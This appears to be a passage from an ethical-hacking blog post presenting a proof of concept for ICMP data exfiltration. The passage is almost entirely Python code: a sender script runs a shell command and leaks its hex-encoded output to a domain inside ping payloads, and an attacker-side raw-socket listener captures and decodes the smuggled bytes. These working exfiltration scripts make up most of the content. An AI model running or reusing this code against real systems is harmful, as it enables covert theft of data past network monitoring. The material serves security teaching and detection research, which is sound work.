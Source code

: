 ```

    try:
        input_data = subprocess.check_output(command, shell=True, text=True)
        hex_data = binascii.hexlify(input_data.encode()).decode()
    except subprocess.CalledProcessError:
        print(f"Error: Failed to run the command '{command}'")
        sys.exit(1)

    for a in re.findall(r'.{1,32}', hex_data, flags=re.DOTALL):
        dsize = len(a)

        if dsize < 32:
            padding = "0" * (32 - dsize)
            a += padding

        subprocess.run(["ping", "-c", "1", "-p", a, domain, "-s", "32"])

if __name__ == "__main__":
    main()
```

{: .box-warning}
**Note:** Below is an example script to capture ICMP packets. The idea is to capture the packets and be able to examine it. You could also use packet analyzer tools such as WireShark, though keep in mind that you might need to parse the data output into a more readable format.

Here is an example script for the attacking machine to capture ICMP packets and unpack it.

```
#!/usr/bin/python3
# Simple proof of concept for ICMP exfiltration
# by Ameer Pornillos
# https://ethicalhackers.club
# To use: sudo python3 icmp_capture.py

import socket
import struct
import os
import sys

def receive_messages_via_icmp():
    try:
        # Check if the script is run as root
        if os.geteuid() != 0:
            print("Error: This script must be run as root.")
            sys.exit(1)

        icmp_socket = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)

        while True:
            packet, _ = icmp_socket.recvfrom(1024)
            # Unpack the ICMP header (Type, Code, Checksum, Identifier, Sequence Number)
            icmp_type, _, _, _, _ = struct.unpack('!BBHHH', packet[20:28])
            if icmp_type == 8:  # ICMP Echo
                message = packet[-16:]  # Read only the last 16 bytes
                message_str = message.decode('utf-8', 'ignore')  # Decode as UTF-8
                print(message_str, end='')  # Use end='' to prevent adding a newline

    except Exception as e:
        print(f"Error: {str(e)}")

if __name__ == "__main__":
    receive_messages_via_icmp()
```